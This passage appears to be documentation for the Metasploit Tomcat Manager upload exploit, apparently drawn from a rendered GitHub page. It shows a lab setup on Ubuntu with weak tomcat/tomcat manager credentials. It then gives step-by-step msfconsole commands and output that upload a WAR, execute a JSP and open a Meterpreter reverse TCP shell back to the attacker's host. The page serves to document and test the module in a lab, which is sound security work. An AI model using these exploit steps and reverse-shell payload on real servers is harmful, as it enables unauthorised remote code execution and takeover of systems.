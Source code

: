     [*] Tomcat Manager found running on linux platform and x64 architecture
    [!] No active DB -- Credential data will not be saved!
    [*] 192.168.2.118:8087 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Finding CSRF token...
    [*] Uploading and deploying QyjbnIqnn23FOe...
    [*] Uploading 6077 bytes as QyjbnIqnn23FOe.war ...
    [*] Executing QyjbnIqnn23FOe...
    [*] Executing /QyjbnIqnn23FOe/2NFgGA5fk1.jsp...
    [*] Finding CSRF token...
    [*] Undeploying QyjbnIqnn23FOe ...
    [*] Sending stage (49409 bytes) to 192.168.2.118
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.118:33808) at 2017-01-15 20:04:21 -0500
    
    meterpreter > sysinfo
    Computer    : tomcat
    OS          : Linux 4.4.0-59-generic (amd64)
    Meterpreter : java/linux
    ```

### Tomcat8 (8.0.32) - Ubuntu server 16.04 64bit
Of note, as of 7, the permission role 'manager' has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.

#### Setup

1. `apt-get install tomcat8 tomcat8-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat8/tomcat-users.xml` to add:

    ```
    <role rolename="manager-gui"/>
    <user username="tomcat" password="tomcat" roles="manager-gui"/>
    ```

2. Restart the service if a user was added/changed: `sudo service tomcat8 restart`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.118
    rhost => 192.168.2.118
    msf exploit(tomcat_mgr_upload) > set rport 8088
    rport => 8088
    msf exploit(tomcat_mgr_upload) > check
    